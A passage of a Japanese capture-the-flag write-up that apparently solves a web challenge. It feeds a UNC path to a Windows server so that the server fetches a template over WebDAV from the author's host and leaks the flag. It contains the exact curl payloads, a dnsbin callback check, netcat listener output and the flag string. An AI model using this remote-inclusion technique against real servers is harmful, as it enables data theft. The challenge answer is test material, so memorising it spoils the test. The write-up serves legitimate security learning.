 なるほど、問題サーバで同じように `/61050c6ef9c64583e828ed565ca424b8be3c585d90a77e52a770540eb6d2a020` にアクセスしたときに `C:\…` というパスが見え、確かに Windows が使われているように見えます。

> UNC Path

[UNC パス](https://docs.microsoft.com/ja-jp/dotnet/standard/io/file-path-formats#unc-paths)を使ってネットワーク経由でテンプレートを取得させればよいということでしょうか。`/61050c6ef9c64583e828ed565ca424b8be3c585d90a77e52a770540eb6d2a020` で試してみましょう。

UNC パスを与えるとアクセスしに来るか確認します。DNS の名前解決が行われたときに把握できるように、[ettic-team/dnsbin](https://github.com/ettic-team/dnsbin) でドメインを生成します。

`curl -X POST http://(省略)/61050c6ef9c64583e828ed565ca424b8be3c585d90a77e52a770540eb6d2a020 -d 'hcda7a4f9=%5C%5Ctest.f03726c8a2feffdad519.d.zhack.ca%5CC$' -H "d28c3a2a7: a" -b "i77baba57=b"` を実行してみると `test.f03726c8a2feffdad519.d.zhack.ca` の名前解決が発生したことが確認できました。アクセスしに来たようです。

あとは UNC パスを使ってネットワーク経由で SMB サーバを立てるだけ…かと思いきや、SMB サーバを立てて `\\(IP アドレス)\TMP\exploit.html` を参照させても何も起こりません。`nc -lvp 445` で待ち受けてみても接続すらしに来ません。問題サーバ側で SMB の通信や 445 番ポートとの通信がブロックされているのでしょうか。

なんとかならないか UNC パスについてググってみると、どうやら[ホスト名の後に `@ポート番号` を続けると、WebDAV でのアクセスにできる](https://en.wikipedia.org/wiki/Path_(computing)#Universal_Naming_Convention)ことがわかりました。やってみましょう。

`\\(IP アドレス)@8000\TMP\test.html` を参照させると以下のようなアクセスが来ました。

```
$ nc -lvp 8000
Listening on [0.0.0.0] (family 0, port 8000)
Connection from (省略) 52415 received!
OPTIONS /TMP/test.html HTTP/1.1
Connection: Keep-Alive
User-Agent: Microsoft-WebDAV-MiniRedir/10.0.14393
translate: f
Host: (省略):8000
```

アクセスが来ました! [適当なツール](https://github.com/andrewleech/PyWebDAV3)を使って WebDAV サーバを立てましょう。

```
$ cat TMP/test.html 
{% raw %}{{> FLAG}}{% endraw %}
$ davserver -D ./ -n --host='0.0.0.0' --port=8000
```

`\\(IP アドレス)@8000\TMP\test.html` を参照させるとフラグが得られました。

```
$ curl -X POST http://(省略)/61050c6ef9c64583e828ed565ca424b8be3c585d90a77e52a770540eb6d2a020 -d 'hcda7a4f9=%5C%5C(省略)@8000%5CTMP%5Ctest.html' -H "d28c3a2a7: a" -b "i77baba57=b
Defenit{AuduLt_JS-@_lo7e5_@-b4By-JS__##}
```

```
Defenit{AuduLt_JS-@_lo7e5_@-b4By-JS__##}
```